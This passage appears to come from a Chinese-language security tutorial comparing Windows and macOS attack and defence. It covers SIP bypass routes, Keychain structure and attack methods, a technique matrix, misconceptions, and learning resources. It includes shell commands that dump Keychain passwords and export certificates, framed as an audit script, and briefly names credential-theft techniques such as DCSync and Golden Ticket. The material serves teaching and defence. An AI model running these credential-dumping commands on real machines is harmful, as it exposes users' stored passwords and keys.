- **MDM策略**：企业环境中通过MDM统一管理TCC配置，防止用户随意授权
- **及时更新**：Apple持续修补TCC绕过漏洞

**绕过SIP（System Integrity Protection）**

SIP是macOS最核心的安全机制，它保护系统目录和关键进程不被修改。绕过SIP通常需要利用内核漏洞或Apple自身签名的工具。

```bash
# 检查SIP状态
csrutil status

# SIP保护的目录：
# /System, /usr (不包括/usr/local), /bin, /sbin
# 系统预装的应用：Safari, Mail等
# 关键系统进程

# 正常情况下关闭SIP（需要物理接触 + 恢复模式）：
# 1. 重启Mac，按住Command+R进入恢复模式
# 2. 打开终端
# 3. 执行 csrutil disable
# 4. 重启

# 攻击者可能利用的方法：
# 1. 内核漏洞直接修改SIP状态（极难）
# 2. 利用Apple签名的漏洞（如2015年的rootlessless漏洞）
# 3. 物理访问+恢复模式（需要用户交互）
# 4. 修改NVRAM/PRAM中的SIP配置（需要特殊权限）
nvram -p    # 查看NVRAM内容
```

#### 5.2.4 Keychain安全

macOS的Keychain是系统级的凭证存储库，保存Wi-Fi密码、网站密码、证书、加密密钥等敏感信息。理解Keychain的安全机制对攻防双方都至关重要。

```bash
# 查看Keychain文件
ls -la ~/Library/Keychains/

# Keychain类型
# 1. login.keychain-db: 用户登录钥匙串（用户密码保护）
# 2. System.keychain: 系统钥匙串（root权限保护）
# 3. iCloud.keychain-db: iCloud钥匙串（iCloud账户保护）

# 使用security命令行工具管理Keychain
security list-keychains                    # 列出所有钥匙串
security find-generic-password -s "ServiceName"  # 查找通用密码
security find-internet-password -s "example.com" # 查找互联网密码
security find-certificate -a -Z              # 列出所有证书的SHA-1哈希

# 导出证书和私钥
security export -k ~/Library/Keychains/login.keychain-db -t certs -o certs.pem

# Keychain安全审计脚本
echo "=== 钥匙串中的通用密码 ==="
security dump-keychain -a ~/Library/Keychains/login.keychain-db 2>/dev/null | head -50

echo "=== 钥匙串中的互联网密码 ==="
security find-internet-password -g ~/Library/Keychains/login.keychain-db 2>&1 | head -20
```

**Keychain攻击方法**：

- **暴力破解**：Keychain的密码保护使用3DES加密，理论上可以暴力破解用户登录密码来解密钥匙串内容
- **内存提取**：当钥匙串被解锁时，解密密钥存在于内存中，可以通过内存取证提取
- **Keychain访问API滥用**：恶意应用可以请求用户授权访问特定钥匙串条目

**Keychain防御**：

- 设置强密码保护钥匙串
- 启用iCloud钥匙串的端到端加密
- 定期审计钥匙串中的过期和不需要的条目
- 使用1Password等第三方密码管理器替代系统钥匙串

### 5.3 高级技巧横向对比

#### 5.3.1 技术能力矩阵

| 能力维度 | Windows | macOS | 关键差异 |
|----------|---------|-------|----------|
| **内存取证** | WinPmem + Volatility成熟 | 需要内核扩展或Rekall | Windows工具链更成熟 |
| **凭证提取** | LSASS + SAM + AD，攻击面大 | Keychain + 转录，受SIP保护 | Windows凭证暴露面远大于macOS |
| **横向移动** | PtH/WMI/DCOM/WinRM，选择丰富 | SSH/AppleScript，选择有限 | AD域环境让Windows横向移动更高效 |
| **持久化** | 注册表/服务/WMI/SchTask，路径极多 | LaunchAgent/Daemon，路径较少 | Windows持久化选择远多于macOS |
| **提权** | UAC绕过/内核漏洞/服务配置错误 | sudo缓存/内核漏洞/TCC绕过 | 两者都依赖内核漏洞实现真正提权 |
| **安全绕过** | AMSI/ETW/Defender绕过 | Gatekeeper/TCC/SIP绕过 | macOS的安全机制更底层，绕过更困难 |
| **固件攻击** | UEFI Rootkit成熟（LoJax等） | T2/Apple Silicon固件攻击 | Apple Silicon固件安全设计更先进 |
| **检测工具** | Sysmon+ETW+EDR生态丰富 | ESF+osquery，生态较新 | Windows检测工具更成熟 |

#### 5.3.2 攻防决策流程

在实际安全测试中，选择哪种技术取决于目标环境和测试目标：



### 5.4 常见误区与纠正

| 误区 | 事实 | 正确做法 |
|------|------|----------|
| "内存取证只需要转储和分析" | 内存获取过程中系统仍在运行，获取的镜像是时间点快照，不是完全一致的 | 尽快获取内存，减少分析前的时间窗口；同时获取磁盘镜像作为补充 |
| "Mimikatz只能在本地使用" | DCSync攻击可以在任何域成员上执行，不需要登录域控制器 | 保护DCSync权限，监控`Directory Service Access`事件 |
| "macOS没有恶意软件" | macOS恶意软件数量逐年增加（2025年新增超过2000个家族），Silver Sparrow、XCSSET等影响了数百万Mac | macOS同样需要EDR、定期审计、及时更新 |
| "SIP完全保护macOS" | SIP只保护特定目录和进程，不保护用户数据、第三方应用、/usr/local等 | SIP是安全链条的一环，不是全部；需要配合TCC、沙盒、代码签名等 |
| "禁用SIP可以方便开发" | 禁用SIP移除了系统级保护，使Rootkit和提权攻击变得更容易 | 只在必要时临时禁用SIP，使用/usr/local/目录替代 |
| "Golden Ticket只能用一次" | Golden Ticket使用krbtgt哈希签名，有效期默认10年，可以反复使用 | 定期轮换krbtgt密码（两次，间隔12小时以上） |

### 5.5 进阶学习路径

**Windows方向**：

1. **内核安全研究**：学习Windows驱动开发（WDK），阅读《Windows Internals》第七版，使用WinDbg分析内核漏洞
2. **AD攻击链精通**：掌握BloodHound路径分析、Rubeus票据操作、ADCS证书服务攻击
3. **EDR对抗研究**：深入理解ETW和AMSI的工作原理，研究用户态hook和内核回调的绕过技术
4. **漏洞挖掘**：学习AFL/libFuzzer对Windows服务进行模糊测试，学习内核Fuzz（如WinAFL）

**macOS方向**：

1. **Objective-C/Swift逆向**：学习Xcode开发基础，使用Hopper/IDA分析macOS应用
2. **Endpoint Security Framework**：学习macOS安全监控的官方API
3. **Apple Silicon安全**：理解SEP（Secure Enclave Processor）和硬件信任链
4. **XNU内核研究**：阅读XNU源码（Apple开源），研究Mach和BSD层的安全边界

**推荐资源**：

| 资源 | 类型 | 说明 |
|------|------|------|
| 《Windows Internals, Part 1/2》(7th Ed) | 书籍 | Windows内核机制的权威参考 |
| 《macOS Internal》 | 书籍 | macOS底层架构的深度分析 |
| 《The Art of Memory Forensics》 | 书籍 | 内存取证的权威指南 |
| Objective-See工具集 | 工具 | macOS安全工具（KnockKnock、RansomWhere?等） |
| Atomic Red Team | 测试框架 | 基于MITRE ATT&CK的安全测试用例 |
| HackTheBox / TryHackMe | 靶场 | Windows/macOS渗透测试实践 |
| The DFIR Report | 博客 | 真实事件响应案例分析 |
